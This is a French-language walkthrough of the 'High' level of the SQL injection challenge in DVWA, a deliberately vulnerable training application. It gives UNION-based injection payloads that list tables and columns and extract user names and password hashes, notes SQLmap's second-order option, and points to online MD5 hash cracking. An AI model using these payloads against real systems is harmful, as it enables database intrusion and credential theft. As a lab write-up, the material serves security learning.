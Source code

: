 # Niveau "High"

Un changement au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de notre recherche et le résultat s’affiche sur la fenêtre principale :

![](../../../../.gitbook/assets/a1dd1c57a6575a56ff5864b9dac6743f.png)

L'injection de notre caractère préféré `"'"` retourne une erreur générique :

![](../../../../.gitbook/assets/03a2758c4de27662e8d49b251f3d11c4.png)

Le fait que l'erreur soit générique n'est pas vraiment gênant, car cela indique bien que le caractère spécial semble être traité comme du code et non comme faisant partie de la donnée. L'injection semble donc être toujours possible :

```sql
6' UNION SELECT 1,2 -- 
```

![](../../../../.gitbook/assets/65391a169a41499b078eabb505cb0762.png)

Récupération des noms des tables :

```sql
'6' UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/bd172c5f7f2447b1243ecd39d9e6992b.png)

Récupération des noms des colonnes :

```sql
'6' UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/d1ea95501c569208c5423279891f13e0.png)

Puis finalement des noms et empreintes des mots de passe des utilisateurs :

```sql
'6' UNION SELECT user,password FROM dvwa.users --  
```

![](../../../../.gitbook/assets/448bc597599a9c79565ffafaa5be8012.png)

L'erreur générique n'augmente pas réellement la difficulté du challenge par rapport au niveau "Low" mais la présence d'une seconde fenêtre peut empêcher les outils automatisés de fonctionner.

L'injection présente ici est une injection nommée "second ordre", et sans l'indiquer explicitement à l'outil il peut ne pas réussir à l'exploiter.

{% hint style="info" %}
Sous `SQLmap` il est possible d'utiliser l'option `--second-order` pour ce type d'injection
{% endhint %}

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7.png)
